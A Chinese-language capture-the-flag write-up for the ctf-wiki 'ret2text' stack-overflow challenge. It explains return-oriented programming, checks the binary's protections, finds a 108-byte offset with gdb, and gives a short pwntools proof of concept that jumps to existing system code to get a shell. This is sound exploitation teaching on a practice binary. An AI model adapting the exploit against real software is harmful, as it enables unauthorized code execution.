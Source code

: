 ## 前言
ROP返回导向编程，其主要思想是在栈缓冲区溢出的基础上，利用程序中已有的小片段（gadgets）来改变某些寄存器或者变量的值，从而控制程序的执行流程。所谓的gadgets就是以ret结尾的指令序列。通过这些指令序列，可以修改某些地址的内容，方便控制程序的执行流程。

**ret2text**  即控制程序执行程序本身已有的代码（.text）。简单理解就是控制执行程序去执行文件中已有的代码或者几段不相邻的程序已有的代码。
[题目链接](https://github.com/ctf-wiki/ctf-challenges/raw/master/pwn/stackoverflow/ret2text/bamboofox-ret2text/ret2text)
## 1.题目信息
### 1.1 查看保护机制
![./photo/1.jpg](./photo/1.jpg)

32位程序
重定位表：部分开启
堆栈不可执行：开启
栈保护：关闭
地址无关代码：关闭
### 1.2 查看题目信息
![./photo/2.png](./photo/2.png)
查看题目信息是溢出，但是没有其他泄露的漏洞。继续查看题目是否自带有system等代码。
![./photo/3.jpg](./photo/3.jpg)
这个随机数的生成用法正确，每次生成的都是随机数，所以很难执行system()函数。此外这个secure函数没有入口，无法调用。
## 2.解题思路
存在有缓冲区溢出漏洞则可以控制返回地址到system函数代码处，即
![./photo/4.png](./photo/4.png)
### 2.1 确定缓冲区大小
![./photo/5.png](./photo/5.png)
gdb 中运行程序,并将上述生成的数据输入到程序中。
```
gdb-peda$ r < code
```
![./photo/6.png](./photo/6.png)
使用pattern offset “MAAi”判断偏移
![./photo/7.jpg](./photo/7.jpg)
可得缓冲区大小为108

poc：
```
from pwn import *

context.log_level = 'debug'
io = process('./ret2text')
io.recvline()
payload= flat(['a'*108, 'a'*4 ,0x804863a])
io.sendline(payload)
io.interactive()
```
结果：
![./photo/8.jpg](./photo/8.jpg)